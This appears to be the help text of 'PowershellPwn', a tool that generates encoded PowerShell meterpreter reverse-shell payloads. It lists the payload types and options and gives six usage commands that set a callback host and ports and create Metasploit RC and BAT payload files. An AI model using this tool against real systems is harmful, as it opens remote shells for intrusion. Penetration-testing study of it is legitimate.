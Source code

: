 8888888b.                                                   888               888 888      
888   Y88b                                                  888               888 888      
888    888                                                  888               888 888                              
888   d88P  .d88b.  888  888  888  .d88b.  888d888 .d8888b  88888b.   .d88b.  888 888        
8888888P"  d88""88b 888  888  888 d8P  Y8b 888P"   88K      888 "88b d8P  Y8b 888 888      
888        888  888 888  888  888 88888888 888     "Y8888b. 888  888 88888888 888 888      
888        Y88..88P Y88b 888 d88P Y8b.     888          X88 888  888 Y8b.     888 888      
888         "Y88P"   "Y8888888P"   "Y8888  888      88888P' 888  888  "Y8888  888 888            

                                                    8888888b.
                                                    888   Y88b    
                                                    888    888
                                                    888   d88P 888  888  888 88888b. 
                                                    8888888P"  888  888  888 888 "88b
                                                    888        888  888  888 888  888
                                                    888        Y88b 888 d88P 888  888
                                                    888         "Y8888888P"  888  888             

..::A Powershell Reverse Shell EncodedCommand Generator"""



Current Supported Payloads: 

windows/meterpreter/reverse_tcp 
windows/x64/meterpreter/reverse_tcp

Options:
  -h, --help            show this help message and exit

  TARGET:
    --LHOST=IP          Ip to Connect Back to
    --LPORT_64=X64PORT  64Bit Port
    --LPORT_86=X86PORT  32Bit Port

  OUTPUT:
    --msfrc             Create a Metasploit RC File
    --bat               Create BAT file payload

USAGE:

./pspwn --LPORT_64 4444 --LHOST=192.168.1.2 --msfrc
./pspwn --LPORT_86 4443 --LHOST=192.168.1.2 --msfrc --bat
./pspwn --LPORT_64 4444 --LHOST=192.168.1.2 
./pspwn --LPORT_86 4443 --LHOST=192.168.1.2 
./pspwn --LPORT_64 4443 --LPORT_86 4444 --LHOST=192.168.1.2 --msfrc
./pspwn --LPORT_64 4443 --LPORT_86 4444 --LHOST=192.168.1.2 --msfrc --bat

